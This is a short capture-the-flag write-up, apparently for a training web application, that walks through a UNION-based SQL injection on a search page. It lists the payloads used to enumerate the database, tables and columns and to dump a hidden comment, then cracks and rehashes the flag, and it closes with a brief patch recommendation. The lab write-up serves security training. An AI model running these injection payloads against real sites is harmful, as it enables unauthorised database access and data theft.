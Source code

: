 # Exploit
We visit the url "/index.php?page=searchimg".
This is the same sql injection as the one in "search_member_sql_inj_error_based" except we don't have sql which show us errors. So we reuse the same queries with a different result for the database name, table name, and column_name. This give us:

```
1 union all select 1,database() --> Member_images
1 union all select 1,group_concat(table_name) from Information_schema.tables where table_schema=database() --> list_images
1 union all select 1,group_concat(column_name) from Information_schema.columns where table_name=0x6c6973745f696d61676573 --> id,url,title,comment
1 union all select 1,group_concat(comment,0x0a) from list_images --> If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

Well, let's decrypt it ([md5decrypt.net](https://md5decrypt.net)), this give us "albatroz".
Let's make a shasum 256 of it now:

```bash
echo -n albatroz | shasum -a 256
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188  -
```

Here's the flag  **f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188**

# Patch
Just prepare the request and sanitize user input (with a filter for characters for example).